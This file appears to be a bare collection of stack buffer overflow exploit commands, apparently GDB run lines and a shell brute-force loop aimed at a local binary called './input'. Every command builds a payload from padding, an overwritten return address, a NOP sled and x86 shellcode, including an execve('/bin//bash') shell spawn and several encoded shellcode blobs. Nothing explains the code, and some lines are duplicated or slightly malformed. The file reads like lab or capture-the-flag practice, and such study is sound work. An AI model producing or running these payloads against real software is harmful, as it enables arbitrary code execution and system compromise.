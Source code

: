 ```
r $(python -c "print('A' * 171 + '\x50\xcc\xff\xff' + '\x90' * 20 + '\xda\xdc\xbe\xd6\x16\x90\x18\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x12\x31\x77\x17\x03\x77\x17\x83\x11\x12\x72\xed\xac\xc0\x85\xed\x9d\xb5\x3a\x98\x23\xb3\x5c\xec\x45\x0e\x1e\x9e\xd0\x20\x20\x6c\x62\x09\x26\x97\x0a\x80\xd2\x6d\xcf"\xfc\xe0\x71\xce\x47\x6d\x90\x60\xd1\x3e\x02\xd3\xad\xbc\x2d\x32\x1c\x42\x7f\xdc\xf1\x6c\xf3\x74\x66\x5c\xdc\xe6\x1f\x2b\xc1\xb4\x8c\xa2\xe7\x88\x38\x78\x67')")

r $(python3 -c "print('A'*171 + '\x50\xcc\xff\xff' + '\x90'*20 + '\xda\xdc\xbe\xd6\x16\x90\x18\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x12\x31\x77\x17\x03\x77\x17\x83\x11\x12\x72\xed\xac\xc0\x85\xed\x9d\xb5\x3a\x98\x23\xb3\x5c\xec\x45\x0e\x1e\x9e\xd0\x20\x20\x6c\x62\x09\x26\x97\x0a\x80\xd2\x6d\xcf\xfc\xe0\x71\xce\x47\x6d\x90\x60\xd1\x3e\x02\xd3\xad\xbc\x2d\x32\x1c\x42\x7f\xdc\xf1\x6c\xf3\x74\x66\x5c\xdc\xe6\x1f\x2b\xc1\xb4\x8c\xa2\xe7\x88\x38\x78\x67')")

$(python2 -c "print 'A'*171 + '\x50\xcc\xff\xff' + '\x90'*20 + '\xda\xdc\xbe\xd6\x16\x90\x18\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x12\x31\x77\x17\x03\x77\x17\x83\x11\x12\x72\xed\xac\xc0\x85\xed\x9d\xb5\x3a\x98\x23\xb3\x5c\xec\x45\x0e\x1e\x9e\xd0\x20\x20\x6c\x62\x09\x26\x97\x0a\x80\xd2\x6d\xcf\xfc\xe0\x71\xce\x47\x6d\x90\x60\xd1\x3e\x02\xd3\xad\xbc\x2d\x32\x1c\x42\x7f\xdc\xf1\x6c\xf3\x74\x66\x5c\xdc\xe6\x1f\x2b\xc1\xb4\x8c\xa2\xe7\x88\x38\x78\x67'")



r $(python2 -c 'print "A" * 171 + "\x50\xcc\xff\xff" + "\x90" * 2000 + "\x31\xc0\x50\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

r $(python2 -c 'print "A" * 171 + "\x50\xcc\xff\xff" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')                   

r $(python2 -c 'print "A" * 171 + "\x50\xcc\xff\xff" + "\x90" * 2000 + "\xd9\xc6\xb8\xfc\x24\xd4\x20\xd9\x74\x24\xf4\x5a\x33\xc9"+
"\xb1\x0b\x31\x42\x1a\x83\xea\xfc\x03\x42\x16\xe2\x09\x4e"+
"\xdf\x78\x68\xdd\xb9\x10\xa7\x81\xcc\x06\xdf\x6a\xbc\xa0"+
"\x1f\x1d\x6d\x53\x76\xb3\xf8\x70\xda\xa3\xf3\x76\xda\x33"+
"\x2b\x15\xb3\x5d\x1c\xaa\x2b\xa2\x35\x1f\x22\x43\x74\x1f";
')

for i in {1..10000}; do (./input $(python2 -c 'print "A" * 171 + "\xc0\x66\xa3\bf" + "\x90" * 2000 + "\xdb\xd5\xd9\x74\x24\xf4\x58\xba\xfb\x0f\x79\xa7\x33\xc9"+
"\xb1\x0b\x31\x50\x1a\x83\xe8\xfc\x03\x50\x16\xe2\x0e\x65"+
"\x72\xff\x69\x28\xe2\x97\xa4\xae\x63\x80\xde\x1f\x07\x27"+
"\x1e\x08\xc8\xd5\x77\xa6\x9f\xf9\xd5\xde\xa8\xfd\xd9\x1e"+
"\x86\x9f\xb0\x70\xf7\x2c\x2a\x8d\x50\x80\x23\x6c\x93\xa6";
')); done

r $(python2 -c 'print "A" * 171 + "\xc0\x66\xa3\bf" + "\x90" * 2000 + "\xdb\xd5\xd9\x74\x24\xf4\x58\xba\xfb\x0f\x79\xa7\x33\xc9"+
"\xb1\x0b\x31\x50\x1a\x83\xe8\xfc\x03\x50\x16\xe2\x0e\x65"+
"\x72\xff\x69\x28\xe2\x97\xa4\xae\x63\x80\xde\x1f\x07\x27"+
"\x1e\x08\xc8\xd5\x77\xa6\x9f\xf9\xd5\xde\xa8\xfd\xd9\x1e"+
"\x86\x9f\xb0\x70\xf7\x2c\x2a\x8d\x50\x80\x23\x6c\x93\xa6";
')

bfa366c0

./input $(python2 -c 'print "A" * 171 + "\xbf\xa3\x66\xc0" + "\x90" * 2000 + "\xba\xde\xab\x47\x09\xdd\xc7\xd9\x74\x24\xf4\x58\x31\xc9" + 
"\xb1\x12\x31\x50\x12\x83\xe8\xfc\x03\x8e\xa5\xa5\xfc\x1f" + 
"\x61\xde\x1c\x0c\xd6\x72\x89\xb0\x51\x95\xfd\xd2\xac\xd6" + 
"\x6d\x43\x9f\xe8\x5c\xf3\x96\x6f\xa6\x9b\x22\x9a\x52\x5e" + 
"\x5b\x98\x62\x61\x20\x15\x83\xd1\x30\x76\x15\x42\x0e\x75" + 
"\x1c\x85\xbd\xfa\x4c\x2d\x50\xd4\x03\xc5\xc4\x05\xcb\x77" + 
"\x7c\xd3\xf0\x25\x2d\x6a\x17\x79\xda\xa1\x58"')
```


r $(python2 -c 'print "A" * 171 + "\x50\xcc\xff\xff" + "\x90" * 2000 + "\xba\xde\xab\x47\x09\xdd\xc7\xd9\x74\x24\xf4\x58\x31\xc9" + 
"\xb1\x12\x31\x50\x12\x83\xe8\xfc\x03\x8e\xa5\xa5\xfc\x1f" + 
"\x61\xde\x1c\x0c\xd6\x72\x89\xb0\x51\x95\xfd\xd2\xac\xd6" + 
"\x6d\x43\x9f\xe8\x5c\xf3\x96\x6f\xa6\x9b\x22\x9a\x52\x5e" + 
"\x5b\x98\x62\x61\x20\x15\x83\xd1\x30\x76\x15\x42\x0e\x75" + 
"\x1c\x85\xbd\xfa\x4c\x2d\x50\xd4\x03\xc5\xc4\x05\xcb\x77" + 
"\x7c\xd3\xf0\x25\x2d\x6a\x17\x79\xda\xa1\x58"')

"\xba\xde\xab\x47\x09\xdd\xc7\xd9\x74\x24\xf4\x58\x31\xc9" + 
"\xb1\x12\x31\x50\x12\x83\xe8\xfc\x03\x8e\xa5\xa5\xfc\x1f" + 
"\x61\xde\x1c\x0c\xd6\x72\x89\xb0\x51\x95\xfd\xd2\xac\xd6" + 
"\x6d\x43\x9f\xe8\x5c\xf3\x96\x6f\xa6\x9b\x22\x9a\x52\x5e" + 
"\x5b\x98\x62\x61\x20\x15\x83\xd1\x30\x76\x15\x42\x0e\x75" + 
"\x1c\x85\xbd\xfa\x4c\x2d\x50\xd4\x03\xc5\xc4\x05\xcb\x77" + 
"\x7c\xd3\xf0\x25\x2d\x6a\x17\x79\xda\xa1\x58"